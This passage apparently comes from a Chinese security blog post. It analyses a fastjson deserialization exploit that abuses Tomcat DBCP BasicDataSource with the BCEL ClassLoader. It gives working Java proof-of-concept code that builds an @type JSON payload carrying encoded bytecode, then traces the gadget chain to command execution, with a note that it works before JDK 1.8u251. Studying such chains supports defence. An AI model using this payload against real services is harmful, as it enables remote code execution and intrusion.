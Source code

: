     import java.util.Arrays;
    
    class fastjson_dbcp {
        public static void main(String[] argv) throws Exception{
            JavaClass cls = Repository.lookupClass(Calc.class);
            //System.out.println(Arrays.toString(cls.getBytes()));
            String code = Utility.encode(cls.getBytes(), true);//转换为字节码并编码为bcel字节码
            System.out.println(code);
            String poc = "{\n" +
                    "    {\n" +
                    "        \"aaa\": {\n" +
                    "                \"@type\": \"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\n" +
                    "                \"driverClassLoader\": {\n" +
                    "                    \"@type\": \"com.sun.org.apache.bcel.internal.util.ClassLoader\"\n" +
                    "                },\n" +
                    "                \"driverClassName\": \"$$BCEL$$"+ code+ "\"\n" +
                    "        }\n" +
                    "    }: \"bbb\"\n" +
                    "}";
            System.out.println(poc);
            JSON.parse(poc);
        }
    }
    
    

![image-20220420143007106](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220420155831428-1501009721.png)

最后说一句对jdk版本有要求，jdk1.8u251前可以成功

### 2.3、利用链

    BasicDataSource.getConnection()
    
    createDataSource() 
    
    createConnectionFactory()
    

其实看到这个利用链，就知道传入我们的BasicDataSource类，会自动调用getter和setter方法，然后调用getConnection方法。我们在

getConnection打断点调试一下，可以看到我们在BasicDataSource里存入的恶意代码都已经存入，继续跟createDataSource

![image-20220420154722506](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220420155832402-825774724.png)

跟进发现，会判断dataSource是够为空，然后调用createConnectionFactory(就是创建链接工厂方法)，继续跟进

![image-20220420154903067](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220420155833316-1055568125.png)

到了这里就很清楚了，通过class.forName方法，使用我们自定义的classloder（com.sun.org.apache.bcel.internal.util.ClassLoader)，获取该类

![image-20220420155157538](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220420155834034-1309753391.png)

然后实例化该类，造成命令执行。

![image-20220420155621546](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220420155834897-2018351151.png)
